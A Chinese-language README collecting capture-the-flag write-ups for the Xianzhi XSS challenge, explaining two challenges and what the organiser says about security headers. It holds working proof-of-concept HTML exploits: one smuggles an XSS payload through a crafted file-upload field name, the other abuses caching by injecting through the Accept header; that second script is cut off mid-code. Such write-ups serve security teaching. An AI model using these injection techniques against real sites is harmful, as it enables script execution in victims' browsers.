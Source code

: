 ### 先知XSS挑战赛

___以下xss题目，我一个都不会，所以无耻的抄了[比赛的wp](https://mp.weixin.qq.com/s/d_UCJusUdWCRTo3Vutsk_A)___

**出题人：M 审核人：Mannix**

##### 这里做一个题目收集和整理

M师傅语录
>  题目很多围绕着security header来出题，希望开发者重视这些问题，在防御上，正确的设置下面的值，是能够避免很多问题. content-type、x-xss-protection、x-frame-options、x-content-type-options


#### [xss1.php](./xss1.php)

此题目的难点是利用html表单上传文件，来达到自动化利用的目的。

参考以下文章：
> http://blog.bentkowski.info/2015/05/xss-via-file-upload-wwwgooglecom.html
> http://kuza55.blogspot.hk/2008/02/csrf-ing-file-upload-fields.html

最后的poc是：
**注意次poc不能再firefox和chrome上使用**
```html
<html>
<body>
    <form id="xss" action="./xss1.php" method="POST" enctype="multipart/form-data">
      <textarea type="text" id="vulnerable" value="" /></textarea>
    </form>
 <script>
 var tarfile = "test";
 var vuln = document.getElementById('vulnerable');
 vuln.name = "x\"; name=fileToUpload; filename=\"<img src=1 onerror=alert(document.domain)>.jpg";
 vuln.value = (tarfile);
 document.getElementById("xss").submit();
 </script>
</body>
</html>
```

#### [xss2.php](./xss2.php)

此题就是会把HTTP所有信息输出到页面，但是不能使用Referrer .
所以矛盾就在怎么请求这个地址，而且又是能够利用代码自动化的添加头去请求.

这里面特别要注意的是开始的两个头
```php
header('Pragma: cache');
header("Cache-Control: max-age=".(60*60*24*100));
```
也就是浏览器会对网页进行缓存，那么如果第一次我能够修改http头然后再进行跨域请求，第二次再请求一次的时候，http的信息还是不会变的，因为直接读取了本地缓存内容.

所以可以使用Fetch先请求，在利用iframe框架进行第二请求，另外注意的就是需要通过meta标签来设置一下referrer，也就是第二次iframe加载的时候是不带referer的.按道理可以在FF下面也成功，不过好像FF不支持meta这样禁止referer

```html
<html>
<head>
    <meta name="referrer" content="never">
    <script>
        var request = new Request('./xss2.php', {
            method: 'GET',
            mode: 'no-cors',
            redirect: 'follow',
            headers: new Headers({
                'Content-Type': 'text/plain',
                'Accept': 'application/jsona<img src=1 onerror=alert(document.domain)>',
            })
        });
```